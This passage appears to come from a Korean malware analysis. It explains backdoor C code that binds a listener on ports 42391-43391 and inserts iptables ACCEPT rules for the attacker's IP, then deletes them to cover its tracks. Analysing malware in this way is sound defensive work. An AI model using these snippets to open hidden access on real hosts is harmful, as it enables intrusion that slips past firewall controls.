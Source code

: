         <br>

        ```c
        my_addr.sin_family = AF_INET;
        my_addr.sin_addr.s_addr = 0;
        ```

        - `AF_INET` : IPv4 사용
        - `0` : `INADDR_ANY`, 즉 모든 네트워크 인터페이스로부터의 연결을 허용

        ```c
        for (port = 42391; port < 43391; port++) {
            my_addr.sin_port = htons(port);
            if( bind(sock_fd,(struct sockaddr *)&my_addr,sizeof(struct sockaddr)) == -1 ){
                continue;
            }
            if( listen(sock_fd,1) == 0 ) {
                *p = port;
                return sock_fd;
            }
            close(sock_fd);
        }
        return -1;
        ```

        - `42391`번 포트부터 `43391`번 포트까지 순회하며 시스템에서 사용 가능한 포트를 찾을 때까지 탐색하고, for loop 끝까지 해당 범위 내에 가능한 포트가 없으면 `-1`을 반환한다.
        - 바인딩에 성공하면, `listen()`을 호출하여 소켓을 연결 대기 상태로 만듦. `1`은 최대 대기열 크기를 의미. `listen`이 성공하면 `0`을 반환하여 해당 포트를 사용하고 소켓 FD를 반환하여 함수 종료한다.
        - `listen`에 실패하면, 이전에 사용했던 `socket_fd`를 닫고 새로운 소켓을 `bind`

4. **공격자의 요청을 수신하기 위한 환경 구성**

    ```c
    snprintf(cmd, sizeof(cmd), inputfmt, ip);
    snprintf(dcmd, sizeof(dcmd), dinputfmt, ip);
    system(cmd);
    sleep(1);
    ```

    - 512 크기의 char 배열 `cmd`와 `dcmd`에 `inputfmt`, `dinputfmt`를 저장하고, 포맷스트링 변수에 `ip` 전달한다.
    - `inputfmt` - `cmd`

        ```
        /sbin/iptables -I INPUT -p tcp -s %s -j ACCEPT
        ```

        - 공격자의 IP 주소(`%s`)에서 들어오는 TCP 패킷 허용 규칙을 INPUT 체인 삽입한다.
    - `dinputfmt` - `dcmd`

        ```
        /sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT
        ```

        - 공격자의 IP 주소(`%s` - `ip` 변수)에서 들어오는 TCP 패킷 허용 규칙을 INPUT 체인 삭제한다.
        - 연결 종료 후, 앞에서 추가한 INPUT 규칙을 제거하기 위한 규칙이다.
    - `system()`을 호출하여 iptables를 이용하여 공격자의 IP 주소로 들어오는 TCP 패킷을 허용하는 방화벽 규칙을 구성하고, `dcmd` 변수에 허용했던 규칙을 삭제하는 명령 문자열을 저장하여, 이후 `shell` 함수 내에서 수행하도록 인자를 전달한다.
